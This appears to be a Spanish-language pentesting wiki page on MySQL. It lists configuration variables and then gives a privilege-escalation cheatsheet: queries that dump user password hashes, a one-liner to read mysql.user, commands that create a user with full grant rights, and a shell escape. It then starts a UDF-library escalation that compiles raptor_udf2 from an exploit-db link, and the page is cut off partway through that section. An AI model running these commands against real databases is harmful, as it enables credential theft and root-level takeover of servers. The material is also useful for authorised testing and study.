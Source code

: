 |    CONFIGURACIÓN   | DESCRIPCIÓN                                                                                                                                                            |
| :----------------: | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|        user        | marca qué usuario ejecuta el servicio MySQL                                                                                                                            |
|      password      | marca la contraseña para dicho usuario                                                                                                                                 |
|   admin\_address   | marca la IP en la que mantenerse a la escucha para conexiones TCP/IP en la interfaz de administración                                                                  |
|        debug       | Esta variable indica los ajustes de debug.                                                                                                                             |
|    sql\_warnings   | Esta variable controla si las consultas INSERT de una sola linea generan un aviso en caso necesario (Puede implicar la existencia de información crítica en los Logs). |
| secure\_file\_priv | Esta variable controla los privilegios en las acciones de importación y exportación.                                                                                   |

## Escalada de privilegios

### Cheatsheet

```
# Conseguir los privilegios y los hashes de todos los usuarios. 
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# One-liner para conseguir los credenciales.
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Crear un usuario y darle privilegios (dependiendo de los privilegios que tengamos nosotros).
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Conseguir una shell. Muy util para sudo/suid privesc)
\! sh
```

### Escalada de Privilegios vía Librería UDF

Si el servidor MySQL está corriendo como root (u otro usuario con más privilegios que tú) puedes hacer que ejecute **comandos**. Para ello necesitas funciones definidas por el usuario o **User Defined Functions**. Y para crear una de esas funciones necesitas una librería para el Sistema Operativo que está corriendo MySQL.

La librería maliciosa se encuentra dentro de `sqlmap` o `metasploit`. Podemos utilizar el comando `locate "*lib_mysqludf_sys*"` para encontrarla. El archivo **`.so`** es la librería de Linux y el archivo **`.dll`** es la versión de Windows.

Si no tiene las librerías, puede buscarlas o descargarlas de [**aquí** ](https://www.exploit-db.com/exploits/1518)y compilarlas en la máquina LINUX vulnerable (no está para Windows)

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
